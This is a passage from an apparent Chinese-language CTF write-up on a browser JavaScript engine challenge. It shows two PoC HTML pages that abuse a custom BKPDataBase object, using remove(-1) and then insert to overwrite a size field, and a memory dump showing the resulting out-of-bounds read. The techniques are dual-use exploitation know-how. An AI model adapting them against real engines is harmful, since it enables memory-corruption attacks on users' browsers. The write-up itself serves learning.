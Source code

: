 ```
Poc1.html

&lt;div id="print"&gt;&lt;/div&gt;
&lt;script type="text/javascript"&gt;
    var db=BKPDataBase.create("dbname","passwd");
    var A=db.createStore("db1",1,[0,1,2,3,4,5,6,7,8,9],0xaabb);

    A.remove(-1);
    var x="";
    for(var i=0;i&lt;15;i++)
    `{`
        x+=i+" : "+A.get(i).toString(16)+"&lt;br&gt;";
    `}`

    document.getElementById("print").innerHTML=x;
&lt;/script&gt;
```

[![](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/4lmO8B.png)](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/4lmO8B.png)

头部分别是ref=1 ，size因为remove所以减少了1

```
0 : 900000001 1&lt;--ref  9 &lt;--size
1 : 7faa0000000d 
2 : 0
3 : 1
4 : 2
5 : 3
6 : 4
7 : 5
8 : 6
9 : 0 &lt;--size减少导致的不可读（9及以下都不可读）
10 : 0
11 : 0
12 : 0
13 : 0
14 : 0
```

此时通过inset可以将size值修改为任意值，从而达到任意地址读取的效果。

`A.insert(0,0xffff000000001);`

如图所示，我们将size值改为了0xffff（还要保证ref=1，否则会被垃圾回收机制干掉），于是后面的地址都能打印出来了。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/gaRG9R.png)

```
poc2.html
&lt;div id="print"&gt;&lt;/div&gt;
&lt;script type="text/javascript"&gt;
    var db=BKPDataBase.create("dbname","passwd");
    var A=db.createStore("db1",1,[0,1,2,3,4,5,6,7,8,9],0xaabb);

    A.remove(-1);
    A.insert(0,0xffff000000001);
var x="";
    for(var i=0;i&lt;15;i++)
    `{`
        x+=i+" : "+A.get(i).toString(16)+"&lt;br&gt;";
    `}`
    document.getElementById("print").innerHTML=x;
&lt;/script&gt;
```
